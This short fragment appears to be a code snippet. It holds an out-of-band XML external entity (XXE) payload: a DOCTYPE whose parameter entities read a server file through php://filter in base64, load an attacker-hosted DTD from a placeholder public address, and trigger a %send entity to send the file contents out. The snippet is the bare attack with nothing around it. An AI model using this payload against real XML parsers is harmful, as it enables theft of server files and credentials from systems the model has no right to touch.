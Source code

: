 <?xml version="1.0"?>

<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=数据路径">
<!ENTITY % remote SYSTEM "公网地址/1.xml"> 
%remote;
%send; 
]>